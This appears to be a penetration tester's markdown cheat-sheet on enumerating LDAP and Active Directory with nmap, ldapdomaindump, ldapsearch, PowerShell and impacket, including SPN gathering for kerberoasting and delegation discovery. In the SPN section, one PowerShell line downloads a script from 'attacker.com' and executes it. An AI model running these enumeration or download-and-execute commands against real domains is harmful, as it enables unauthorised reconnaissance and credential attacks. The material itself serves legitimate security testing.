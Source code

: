 # LDAP/389/636 (TCP)

## Questions to ask yourself
  *  Is the LDAP server also the domain controller?
  *  How many machines/users exist in the domain?
      *  Which are high-value targets?

## Things to remember
  *  LDAP [distinguished names](https://ldap.com/ldap-dns-and-rdns/) describe a position in the directory heirarchy
  *  List of some [famous LDAP filters](https://www.ldapexplorer.com/en/manual/109050000-famous-filters.htm) for easy searching

## Useful tools
  *  [`nmap`](https://nmap.org/) for various NSE enum scripts
  *  [`ldapdomaindump`](https://github.com/dirkjanm/ldapdomaindump) for dumping domain objects
  *  [`ldapsearch`](https://linux.die.net/man/1/ldapsearch) for precise LDAP searching
  *  Custom [`Invoke-LDAPSearch.ps1`](https://github.com/SpacemanHenry/hacknotes/blob/main/Post%20Exploitation/Privilege%20Escalation/Windows/Powershell%20Scripts/Invoke-LDAPSearch.ps1) for searching LDAP from `powershell`
  *  [`impacket-GetUserSPNs`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) and [`Get-SPN.ps1`](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py) for gathering service principal names
  *  [`impacket-findDelegation`](https://github.com/fortra/impacket/blob/master/examples/findDelegation.py) for automatically gathering delegation permissions

## Additonal NSE enumeration
  *  `nmap` [LDAP NSE scripts](https://nmap.org/search/?q=ldap) without credentials will not yield much
      *  See [`ldap-search.nse`](https://nmap.org/nsedoc/scripts/ldap-search.html) docs for more examples

```
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap*"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute"
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.maxobjects=-1'
nmap -sS -p389 10.0.0.1 -T4 -vv -d --script "ldap* and not brute" --script-args 'ldap.username=bob,ldap.password=password,ldap.qfilter=users,ldap.attrib=sAMAccountName,ldap.maxobjects=-1'
```

## LDAP domain dump
  *  `ldapdomaindump` for reading all objects from an LDAP server
      *  Create a new directory for this, outputs a lot of files
      *  Likely requires credentials

```
ldapdomaindump 10.0.0.1
ldapdomaindump ldapserver.example.com
ldapdomaindump -u "bob" -p "password" 10.0.0.1
ldapdomaindump -u "bob" -p "password" ldapserver.example.com
```

## LDAP search
  *  [`hacktricks`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap) for more/better examples
  *  `ldapsearch` for finding specific objects from an LDAP server
  *  Custom powershell script `Invoke-LDAPSearch.ps1` for sending LDAP queries
      *  Used to perform LDAP searches from a domain-joined machine
      *  No additional pivot tools needed

```
ldapsearch -x -H ldap://10.0.0.1 -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=com' samaccounttype=805306368
ldapsearch -x -H ldap://ldapserver.example.com -D '' -w '' -b 'DC=example,DC=com'
ldapsearch -x -H ldap://ldapserver.example.com -D 'example\bob' -w 'password' -b 'DC=example,DC=com'
```

```
PS > Invoke-LDAPSearch -connect "LDAP://10.0.0.1/DC=example,DC=com"
PS > Invoke-LDAPSearch -filter "samaccounttype=805306368"
PS > Invoke-LDAPSearch -username "bob" -password "pass123"
```

## Gathering SPNs
  *  Hunt for target services by querying for [service principal names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names)
  *  Useful preparation for [kerberoasting](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)
  *  `impacket-GetUserSPNs` for gathering service principal names from linux
  *  `Get-SPN.ps1` or `Invoke-LDAPSearch.ps1` can be used to enumerate SPNs without requesting tickets

```
impacket-GetUserSPNs example.com/bob:password -dc-ip 10.0.0.1
```

```
PS > IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/Get-SPN.ps1');
PS > Get-SPN -type service -search "*"
```

```
PS > Invoke-LDAPQuery "serviceprincipalname=*"
```

## [Delegation](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Delegation.md) permissions
  *  Hunt for user/computer objects configured with delegation permissions
  *  Enumerating delegation relies on specific object attributes being readable
      *  [`useraccountcontrol`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) attribute to [check what delegations are enabled](https://www.techjutsu.ca/uac-decoder) 
      *  [`msDS-AllowedToDelegateTo`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-allowedtodelegateto) to show SPNs allowed for constrained delegation
  *  `ldapsearch` and `impacket-findDelegation` for enumerating delegation permissions

```
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' samaccounttype=805306368 samaccountname useraccountcontrol
ldapsearch -x -H ldap://10.0.0.1 -D 'example\bob' -w 'password' -b 'DC=example,DC=local' samaccounttype=805306368 samaccountname msDS-AllowedToDelegateTo
```

```
impacket-findDelegation example.com/bob:password -dc-ip 10.0.0.1
```

